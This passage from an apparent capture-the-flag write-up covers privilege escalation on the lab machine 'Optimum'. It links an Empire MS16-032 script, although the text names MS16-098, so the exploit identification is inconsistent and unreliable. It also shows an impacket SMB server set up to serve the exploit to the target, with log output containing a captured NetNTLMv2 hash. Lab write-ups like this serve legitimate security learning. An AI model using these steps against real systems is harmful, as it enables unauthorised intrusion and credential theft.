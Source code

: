 ```
```

I did a little research on the first one but it did not sound useful. On to the next one `MS16-098` stands out as from my research I note it also affect windows server 2012.

I read  bit about this exploit and discovered the initial exploit worked by poping another window rather than giving you options to run commands. But unless I activate a remote desktop on this box I wouldnt be able to know if it worked and even if it worked I wouldnt be able to catch that window. I almost gave up on this but luckily I came across [this empire](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) script which allows you to run any command as system. Sweet!

### Some Setbacks(Learning Moment)

I had a hard time initially trying to get this to work as it kept failing no matter what I did. Trust me when I say i spent 2 good days on this privesc. I had to take a pause and go over powershell basics. I realised When I got my foothold, I did in a 32 bit shell. The exploit I was trying to run was a 64bit and couldnt run on a 32bit shell. This made me go back and get a 64bit shell using C:\Windows\SysNative\ which holds the 64bit binaries. One thing I learnt is `C:\Windows\System32` and `C:\Windows\SysWow64` all hold 32bit binaries.


### Privilege Escalation

I will download it on my box and host an `smbserver` using impacket, then download the file to `optimum` box.

```
┌─[george@parrot]─[~/HTB/boxes/optimum/share]                                                                                                                                                                                                                 └──╼ $ sudo impacket-smbserver smbfolder $(pwd)       
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed              
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed                                         
[*] Config file parsed
[*] Config file parsed
[-] TreeConnectAndX not found SMBSERVER
[-] TreeConnectAndX not found SMBSERVER
[*] Disconnecting Share(1:IPC$)
[*] Closing down connection (10.10.10.8,49205)
[*] Remaining connections []                                   
[*] Incoming connection (10.10.10.8,49206)
[*] AUTHENTICATE_MESSAGE (OPTIMUM\kostas,OPTIMUM)
[*] User OPTIMUM\kostas authenticated successfully
[*] kostas::OPTIMUM:aaaaaaaaaaaaaaaa:cbd04baed8fe317703535661c3ef3a26:01010000000000008037337c2501da015386942160da49be00000000010010004e0045006e00780057004a004b006100030010004e0045006e00780057004a004b006100020010006a0058005a004800590070007500660004001000
6a0058005a0048005900700075006600070008008037337c2501da01060004000200000008003000300000000000000000000000002000004cadb052479d75c441869d5162b9c585eeb2c773dc0d66f979c366c86ad129160a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e
00310030002e00310036002e003700000000000000000000000000
```
On `optimum` I will use the copy command.
